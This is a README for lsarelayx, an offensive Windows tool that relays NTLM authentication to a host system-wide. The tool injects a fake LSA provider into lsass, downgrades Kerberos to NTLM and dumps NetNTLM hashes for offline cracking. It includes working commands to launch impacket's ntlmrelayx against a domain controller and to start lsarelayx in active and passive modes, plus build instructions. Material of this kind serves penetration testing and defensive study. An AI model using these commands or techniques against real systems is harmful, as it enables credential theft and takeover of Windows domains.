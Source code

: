 # lsarelayx

## Introduction

lsarelayx is system wide NTLM relay tool designed to relay incoming NTLM based authentication to the host it is running on.  lsarelayx will relay **any** incoming authentication request which includes SMB.  Since lsarelayx hooks into existing application authentication flows, the tool will also attempt to service the original authentication request after the relay is complete.  This will prevent the target application/protocol from displaying errors and function as normal for end users authenticating against the lsarelayx host.

### **Features**

* Relays NTLM connections system wide, including SMB, HTTP/HTTPS, LDAP/LDAPS or any other third party application implementing the Windows authentication APIs.
* Where possible, downgrades incoming Kerberos authentication requests to NTLM.  This will cause clients that would traditionally attempt Kerberos authentication to fallback to NTLM.
* Performs an LDAP query for the relayed user to fetch group membership info an create the correct authentication token for the original request.
* Dumps NetNTLM messages for offline cracking.
* Supports a passive mode that does not relay and only dumps captured NetNTLM hashes (no Kerberos downgrade in this mode).

## How it works

lsarelayx comes in three parts.  A fake LSA authentication provider implemented within liblsarelay.dll, a user mode console application as the control interface and a new ntlmrelayx server module called RAW.

### liblsarelayx.dll

liblsarelayx.dll is the LSA authentication provider that gets loaded by lsarelayx.  It's predominant purpose is to hook the NTLM and Negotiate packages to facilitating redirecting authentication requests to lsarelayx over a local named pipe for relaying and dumping NetNTLM hashes.  liblsarelayx is designed to be as simple as possible where all the heavy lifting is performed by lsarelayx

### lsarelayx.exe

lsarelayx.exe is the main console application used to load the custom LSA authentication provider (liblsarelayx.dll), listen for incoming NTLM and Negotiate tokens from the authentication provider and relay to ntlmrelayx's RAW server module.  The tool also performs the LDAP queries used for capturing group information for relayed users and passing back to the LSA authentication provider.

### RAW ntlmrelayx module

impacket's ntlmrelayx has implemented a significant amount of work creating relay attacks and will continue to improve and add further attack in the future.  To take advantage of this in favour of reimplementing attacks directly within lsarelayx, a new ntlmrelayx server module was created called RAW.  Currently there is a [PR open on GitHub](https://github.com/SecureAuthCorp/impacket/pull/1190) that implements the RAW server module.  The RAW server module is protocol agnostic and is designed to accept the raw NTLM messages directly from 3rd party software like lsarelayx.

Until the PR is merged into the mainline impacket repo, you can use [this version](https://github.com/CCob/impacket)

## Usage

### Active Mode

First start the ntmlrelayx RAW server module to listen for RAW NTLM messages passed from lsarelayx.

```
python examples\ntlmrelayx.py -smb2support --no-wcf-server --no-smb-server --no-http-server "-t" smb://dc.victim.lan

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

lsarelayx itself requires local administrator permissions to run.  To run in active relay mode, the host address where ntlmrelayx is running the raw server module needs to be specified.  The default port is 6666.  This can be overridden with the `--port` argument, but be sure to have also overridden the port on the ntlmrelayx side too using the `--raw-port` argument.

```
lsarelayx.exe --host 192.168.1.1
[+] Using 192.168.1.1:6666 for relaying NTLM connections
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Passive Mode

You can also run lsarelayx in passive mode by running without any arguments

```
lsarelayx.exe
[=] No host supplied, switching to passive mode
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Caveats

Once the liblsarelayx DLL has been loaded into lsass, currently you cannot unload it due to limitations of how LSA plugins work.  The client can be closed which will put the DLL into a dormant state until the client starts again but the DLL will be in use until a reboot occurs.

Since the LSA plugin is not actually a genuine plugin, there are plans to implement a reflective loader inside the plugin which can then be stopped and started at will but that’s an exercise for another day.

Development was performed on Windows 10 and Server 2016.  A quick test was performed on Windows Server 2012 R2 which worked, but the calculation of offsets for hooking can fail on 2012 (this can be provided manually using the `lookuppackage-hint=`, get it wrong and Windows will reboot).  No testing has been performed on anything below Windows 10 on the desktop side and nothing tested on Server 2019 at all.

## !!WARNING!!

liblsarelayx.dll will be loaded inside the critical lsass.exe process.  If liblsarelayx.dll has any bugs that lead to crashing lsass.exe, the host **WILL** reboot after 60s.  Whilst best efforts have been made to write bug free code, I can't promise anything.  Don't come crying to me that you took your fortune 500 client down for crashing the busy file server after using lsarelayx.

## Building

### Docker

If you have docker installed, this is the quickest option. It utilises the `ccob/windows_cross` image with all the build dependencies pre-installed.

#### Docker on Windows (Powershell)

```shell
docker run --rm -it -v $pwd\:/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build . --target install/strip"
```

#### Docker on Linux

```shell
docker run --rm -it -v $(pwd):/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build . --target install/strip"
```

### Linux

On Linux we utilise a CMake toolchain along with the MinGW compiler.  These need to be installed before hand.  For the managed component, please make sure the dotnet command line tool is also installed from .NET core (for Ubuntu, something like `sudo apt install dotnet6`)

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..
cmake --build . --target install/strip
```

### Windows (Powershell)

Windows will require a full CMake, MinGW and Visual Studio setup before even attempting to build, it's the most painful way to build if you don't have a development environment installed 

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -G "MinGW Makefiles" ..
cmake --build . --target install/strip
```
